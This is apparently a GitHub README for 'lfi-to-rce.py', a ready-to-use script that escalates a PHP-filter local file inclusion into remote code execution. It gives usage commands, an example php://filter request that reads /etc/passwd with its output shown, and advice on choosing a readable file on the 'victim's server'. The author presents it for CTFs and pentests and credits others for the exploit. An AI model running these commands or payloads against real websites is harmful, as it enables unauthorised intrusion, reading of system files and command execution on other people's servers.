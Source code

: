 # LFI to RCE : filters
Found an LFI with PHP filters ? Use this script for RCE !

## Basic usage
```
python3 lfi-to-rce.py http://example.com/vuln_page.php file
```

## Detailled commands

```
usage: lfi-to-rce.py [-h] [-c CMD] [-f FILE] [-d] url parameter

Example : python3 lfi-to-rce.py https://example.com/vuln_page.php file

positional arguments:
  url                   full path to vulnerable page
  parameter             GET parameter vulnerable to LFI

optional arguments:
  -h, --help            show this help message and exit
  -c COOKIE, --cookie COOKIE
                        cookie for the GET request
  --phpinfo             fetch phpinfo from the server and store it in phpinfo.html
  -x CMD, --cmd CMD     execute a single command then stop program
  -f FILE, --file FILE  remote file to use : this should point to a valid file on the victim's server. Default : /etc/passwd
  -d, --debug           troubleshooting

```

## Explanation
For this script to work, you have to find an exploitable website with an LFI working with PHP filters.

For example, let's say that http://example.com is vulnerable to LFI on the `vuln_page.php` page with the `file` parameter and PHP filters :

```
GET http://example.com/vuln_page.php?file=php://filter/convert.base64-encode|convert.base64-decode/resource=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

Then, you can use this script to gain an easy RCE (no need to check for logging files or other bullsh*t :p) :

`python3 lfi-to-rce.py http://example.com/vuln_page.php file`

For this you'll only need a known file on the system which is readable by the user the server is running as. By default, it uses /etc/passwd but if this file is not accessible, you have to change it with the `-f` or `--file` argument. This will be the case if the server is running on Windows for example !

A smart choice could be using the vulnerable PHP file on the server ! For example :

`python3 lfi-to-rce.py http://example.com/vuln_page.php file --file "./vuln_page.php"`

For more technical details, check the links in Credits !

## Credits
Disclaimer : I did NOT found this exploit, I only used it to build a ready-to-use script useful for CTF or pentests. Full credit for the exploit goes to loknop.

Exploit and most of the code : https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d \
Chain generator : https://github.com/synacktiv/php_filter_chain_generator
